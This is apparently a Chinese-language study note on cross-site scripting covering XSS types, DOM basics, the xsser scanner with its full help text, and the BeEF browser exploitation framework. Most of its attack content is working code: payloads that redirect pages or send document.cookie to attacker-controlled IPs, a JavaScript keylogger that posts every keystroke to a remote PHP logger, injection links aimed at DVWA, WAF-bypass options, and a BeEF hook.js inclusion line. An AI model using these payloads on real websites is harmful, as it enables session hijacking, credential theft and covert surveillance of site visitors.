

# XSS

## 0x01 xss简介
+ 攻击对象: WEB客户端 
+ 客户端脚本语言正常用途: 弹窗警告、广告,等
+ 主要语言: JavaScript, 此外还有VBScript,ActiveX,or Flash

### 漏洞形成的根源
+ 服务器对用户提交数据过滤不严
+ 提交给服务器的脚本被直接返回给其他客户端执行
+ 脚本可以在客户端执行恶意操作

### XSS(cross-site scripting)主要利用方式
  - 通过WEB站点漏洞，向客户端交付恶意脚本代码，实现对客户端的攻击目的
  - 注入客户端脚本代码
  - 盗取cookie 
  - 重定向等等

### 攻击参与方 
+ 攻击者
+ 被攻击者
+ 漏洞网站
+ 可选: 第三方网站(可以是攻击者的肉鸡,或者攻击目标)


### XSS漏洞类型
+ 存储型（持久型）
+ 反射型（非持久）
+ DOM型(一种特殊的反射性,不过被攻击客户端不再去请求漏洞站点资源)

## 0x02 JavaScript
> 与Java语言无关                                 
> 命名完全出于市场原因                           
> 使用最广的客户端脚本语言                       
+ 使用场景                                           
``` JavaScript
直接嵌入html:<script>aler('XSS');</script>     
元素标签事件: <body onload=alert('XSS')>       
图片标签:  
其他标签: <iframe>,<dir>,<a>, <link>等等             
DOM对象，篡改页面内容 
```                         

## 0x03 常见Payload
### 常见Poc
``` JavaScript
<script>alert('xss')</script> 

<a href=" onclick=alert('xss')>type</a> 


<script>window.location='http://hacker.com'</script>

<iframe SRC="http://1.1.1.1/victim" height="0" width="0"></iframe>

<script>new Image().src="http://127.0.0.1/c.php
?cookies="+document.cookie;</script>

<script>document.body.innerHTML="<div style=visibility:visible;><h1>THIS WEBSITE IS UNDER ATTACK</h1></div>";</script>
```

### 盗取Cookie举例
```
ip2: nc -vnlp 88
<script src=http://ip1/a.js></script>
ip1上a.js源码
var img = new Image();
img.src = "http://ip2:88/cookies.php?cookie="+document.cookie;
```
> 当然,也可以利用第三方xss平台,或自己搭建xss利用平台

### 键盘记录器举例
Keylogger.js
``` JavaScript
document.onkeypress = function(evt){
	evt = evt || window.event
	key = String.fromCharCode(evt.charCode)
	if(key){
		var http = new XMLHttpRequest();
		var param = encodeURI(key);
		http.open("POST","http://192.168.0.102/Keylogger.php",true); 
		http.setRequestHeader("Content-type","application/x-www-form-urlencoded"); 
		http.send("key="+param);
		}
	}
```

Keylogger.php
``` php
<?php
$key=$_POST['key']; 
$logfile="keylog.txt";
$fp = fopen($logfile, "a"); 
fwrite($fp, $key); fclose($fp);
Echo "Hello Wolrd"
?>
```
注意, keylog.txt www-data要有写入权限.

插入代码:
```
<script+src="http://ip/keylogger.js"></script>
或
<a href="http://IP1/dvwa/vulnerabilities/xss_r/?name=<script +src='http://IP2/keylogger.js'></script>">xss</a>
```

### Xss过滤
+ 过滤关键字(形同虚设)
+ 编码html字符(htmlspecialchars($message)函数把<  > 变` &lt;  &gt;`等)
> 这种情况下,如果输出点本身在尖括号内才可以较好利用(利用现有的尖括号),或者尝试编码绕过.

### 存储型xss 
> 漏洞成因
```
应用把用户的输入内容存储到服务器端,每次访问都会调用执行JavaScript脚本.一般出现在类似留言处等可能存储到数据库的输入点.
```

### DOM型xss
+ DOM, 一套js和其他语言可调用的标准api

  

``` html
<!DOCTYPE html>
<html>
<body>

<p id="p1">Hello World!</p>

<script>
document.getElementById("p1").innerHTML="New text!";
</script>

<p>上面的段落被一条 JavaScript 脚本修改了。</p>

</body>
</html>
```
DOM型xss 举例
```
nc -nvlp 88

<script>var img=document.createElement("img");img.src="http://192.168.20.8:88/log?"+escape(document.cookie);</script>
```


## 0x04 xss检测工具 `xsser`
 ### 简介
+ 命令/图形化 工具
+ 绕过服务器端输入筛选
+ 10进制/16进制 等编码 
+ unescape()

### 使用说明
```
xsser -u http://1.1.1.1/dvwa/vulnerabilities/" -g "xss_r/?name=" --cookie="security=low;PHPSESSID=d23e439411707ff8210717e67c521a81" -s -v --reverse-check --heuristic 

-g GET方法提交数据
-v 详细输出
--reverse-check 反向链接确定漏洞
--heuristic 检查具体过滤的漏洞
```

```
XSS 对payload编码，绕过服务器端筛选过滤 
--Str Use method String.FromCharCode()
--Une Use Unescape() function
--Mix Mix String.FromCharCode() and Unescape()
--Dec Use Decimal encoding
--Hex Use Hexadecimal encoding
--Hes Use Hexadecimal encoding, with semicolons
--Dwo Encode vectors IP addresses in DWORD
--Doo Encode vectors IP addresses in Octal
--Cem=CEM Try -manually- different Character Encoding Mutations
(reverse obfuscation: good) -> (ex: 'Mix,Une,Str,Hex') 

如: --Cem='Mix,Une,Str,Hex

注入技术(多选)
--Coo               COO - Cross Site Scripting Cookie injection
--Xsa               XSA - Cross Site Agent Scripting
--Xsr               XSR - Cross Site Referer Scripting
--Dcp               DCP - Data Control Protocol injections
--Dom               DOM - Document Object Model injections
--Ind               IND - HTTP Response Splitting Induced code
--Anchor            ANC - Use Anchor Stealth payloader (DOM shadows!)
--Phpids PHP - Exploit PHPIDS bug (0.6.5) to bypass filters


--Doss XSS Denial of service (server) injection
--Dos XSS Denial of service (client) injection
--B64 Base64 code encoding in META tag (rfc2397) --Onm ONM - Use onMouseMove() event to inject code --Ifr Use <iframe> source tag to inject code
```

```
# xsser --help
Usage: 

xsser [OPTIONS] [--all <url> |-u <url> |-i <file> |-d <dork> (options)|-l ] [-g <get> |-p <post> |-c <crawl> (options)]
[Request(s)] [Checker(s)] [Vector(s)] [Anti-antiXSS/IDS] [Bypasser(s)] [Technique(s)] [Final Injection(s)] [Reporting] {Miscellaneous}

Cross Site "Scripter" is an automatic -framework- to detect, exploit and
report XSS vulnerabilities in web-based applications.

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -s, --statistics      show advanced statistics output results
  -v, --verbose         active verbose mode output results
  --gtk                 launch XSSer GTK Interface
  --wizard              start Wizard Helper!

  *Special Features*:
    You can set Vector(s) and Bypasser(s) to build complex scripts for XSS
    code embedded. XST allows you to discover if target is vulnerable to
    'Cross Site Tracing' [CAPEC-107]:

    --imx=IMX           IMX - Create an image with XSS (--imx image.png)
    --fla=FLASH         FLA - Create a flash movie with XSS (--fla movie.swf)
    --xst=XST           XST - Cross Site Tracing (--xst http(s)://host.com)

  *Select Target(s)*:
    At least one of these options must to be specified to set the source
    to get target(s) urls from:

    --all=TARGET        Automatically audit an entire target
    -u URL, --url=URL   Enter target to audit
    -i READFILE         Read target(s) urls from file
    -d DORK             Search target(s) using a query (ex: 'news.php?id=')
    -l                  Search from a list of 'dorks'
    --De=DORK_ENGINE    Use this search engine (default: duck)
    --Da                Search massively using all search engines

  *Select type of HTTP/HTTPS Connection(s)*:
    These options can be used to specify which parameter(s) we want to use
    as payload(s) to inject:

    -g GETDATA          Send payload using GET (ex: '/menu.php?q=')
    -p POSTDATA         Send payload using POST (ex: 'foo=1&bar=')
    -c CRAWLING         Number of urls to crawl on target(s): 1-99999
    --Cw=CRAWLER_WIDTH  Deeping level of crawler: 1-5 (default 3)
    --Cl                Crawl only local target(s) urls (default TRUE)

  *Configure Request(s)*:
    These options can be used to specify how to connect to the target(s)
    payload(s). You can choose multiple:

    --cookie=COOKIE     Change your HTTP Cookie header
    --drop-cookie       Ignore Set-Cookie header from response
    --user-agent=AGENT  Change your HTTP User-Agent header (default SPOOFED)
    --referer=REFERER   Use another HTTP Referer header (default NONE)
    --xforw             Set your HTTP X-Forwarded-For with random IP values
    --xclient           Set your HTTP X-Client-IP with random IP values
    --headers=HEADERS   Extra HTTP headers newline separated
    --auth-type=ATYPE   HTTP Authentication type (Basic, Digest, GSS or NTLM)
    --auth-cred=ACRED   HTTP Authentication credentials (name:password)
    --proxy=PROXY       Use proxy server (tor: http://localhost:8118)
    --ignore-proxy      Ignore system default HTTP proxy
    --timeout=TIMEOUT   Select your timeout (default 30)
    --retries=RETRIES   Retries when the connection timeouts (default 1)
    --threads=THREADS   Maximum number of concurrent HTTP requests (default 5)
    --delay=DELAY       Delay in seconds between each HTTP request (default 0)
    --tcp-nodelay       Use the TCP_NODELAY option
    --follow-redirects  Follow server redirection responses (302)
    --follow-limit=FLI  Set limit for redirection requests (default 50)

  *Checker Systems*:
    These options are useful to know if your target is using filters
    against XSS attacks:

    --hash              send a hash to check if target is repeating content
    --heuristic         discover parameters filtered by using heuristics
    --discode=DISCODE   set code on reply to discard an injection
    --checkaturl=ALT    check reply using: alternative url -> Blind XSS
    --checkmethod=ALTM  check reply using: GET or POST (default: GET)
    --checkatdata=ALD   check reply using: alternative payload
    --reverse-check     establish a reverse connection from target to XSSer to
                        certify that is 100% vulnerable (recommended!)

  *Select Vector(s)*:
    These options can be used to specify injection(s) code. Important if
    you don't want to inject a common XSS vector used by default. Choose
    only one option:

    --payload=SCRIPT    OWN  - Inject your own code
    --auto              AUTO - Inject a list of vectors provided by XSSer

  *Anti-antiXSS Firewall rules*:
    These options can be used to try to bypass specific WAF/IDS products.
    Choose only if required:

    --Phpids0.6.5       PHPIDS (0.6.5) [ALL]
    --Phpids0.7         PHPIDS (0.7) [ALL]
    --Imperva           Imperva Incapsula [ALL]
    --Webknight         WebKnight (4.1) [Chrome]
    --F5bigip           F5 Big IP [Chrome + FF + Opera]
    --Barracuda         Barracuda WAF [ALL]
    --Modsec            Mod-Security [ALL]
    --Quickdefense      QuickDefense [Chrome]

  *Select Bypasser(s)*:
    These options can be used to encode vector(s) and try to bypass
    possible anti-XSS filters. They can be combined with other techniques:

    --Str               Use method String.FromCharCode()
    --Une               Use Unescape() function
    --Mix               Mix String.FromCharCode() and Unescape()
    --Dec               Use Decimal encoding
    --Hex               Use Hexadecimal encoding
    --Hes               Use Hexadecimal encoding with semicolons
    --Dwo               Encode IP addresses with DWORD
    --Doo               Encode IP addresses with Octal
    --Cem=CEM           Set different 'Character Encoding Mutations'
                        (reversing obfuscators) (ex: 'Mix,Une,Str,Hex')

  *Special Technique(s)*:
    These options can be used to inject code using different XSS
    techniques. You can choose multiple:

    --Coo               COO - Cross Site Scripting Cookie injection
    --Xsa               XSA - Cross Site Agent Scripting
    --Xsr               XSR - Cross Site Referer Scripting
    --Dcp               DCP - Data Control Protocol injections
    --Dom               DOM - Document Object Model injections
    --Ind               IND - HTTP Response Splitting Induced code
    --Anchor            ANC - Use Anchor Stealth payloader (DOM shadows!)

  *Select Final injection(s)*:
    These options can be used to specify the final code to inject on
    vulnerable target(s). Important if you want to exploit 'on-the-wild'
    the vulnerabilities found. Choose only one option:

    --Fp=FINALPAYLOAD   OWN    - Exploit your own code
    --Fr=FINALREMOTE    REMOTE - Exploit a script -remotely-
    --Doss              DOSs   - XSS (server) Denial of Service
    --Dos               DOS    - XSS (client) Denial of Service
    --B64               B64    - Base64 code encoding in META tag (rfc2397)

  *Special Final injection(s)*:
    These options can be used to execute some 'special' injection(s) on
    vulnerable target(s). You can select multiple and combine them with
    your final code (except with DCP code):

    --Onm               ONM - Use onMouseMove() event
    --Ifr               IFR - Use <iframe> source tag

  *Reporting*:
    --save              export to file (XSSreport.raw)
    --xml=FILEXML       export to XML (--xml file.xml)

  *Miscellaneous*:
    --silent            inhibit console output results
    --no-head           NOT send a HEAD request before start a test
    --alive=ISALIVE     set limit of errors before check if target is alive
    --update            check for latest stable version
```


## 0x05 XSS漏洞利用工具 BEEF
### 简介
+ 浏览器攻击面
> 应用普遍转移到B/S架构，浏览器成为统一客户端程序,可以结合社会工程学方法对浏览器进行攻击,通过注入的JS脚本，攻击浏览器用户, 利用浏览器攻击其他网站 
+ BEFF(Brower Exploitation Framework)
> Ruby语言编写,可以生成、交付palyload
> +  服务器端：管理hooked客户端
> + 客户端：运行与客户端浏览器的Javascript脚本(hook)

+ 攻击手段
> 诱使客户端访问含有hook的伪造站点,利用网站xss漏洞实现攻击, 或可以结合中介人攻击注入hook脚本

+ 常见用途 
> + 键盘记录器
> + 网络扫描
> + 浏览器信息收集
> + 绑定shell
> + 与metasploit集成


### 使用方法
#### 启动
> 控制台或应用菜单启动 `beef-xss` ,之后访问 `http://127.0.0.1:3000/ui/panel`, 输入用户名密码均为 `beef`, 即可进入管理界面.

#### 功能菜单简介
+ Details
> 浏览器、插件版本信息；操作系统信息

+ Logs
> 浏览器工作：焦点变化、鼠标点击、信息输入

+ Commands：命令模块
> + 绿色模块：表示模块适合目标浏览器，并且执行结果被客户端不可见
> + 红色模块：表示模块不适用于当前用户，有些红色模块也可正常执行
> + 橙色模块：模块可用，但结果对用户可见（CAM弹窗申请权限等）
> + 灰色模块：模块末在目标浏览器上测试过
> **注意**: 上述不是百分百的准确,可用不可用,依据情况定.
> 
> 主要模块
> Persistence (建议先尝试执行)
> Browsers
> Exploits
> Host
> Network

+ Hook示例
```
<script src="http://<IP>:3000/hook.js"></script>
```
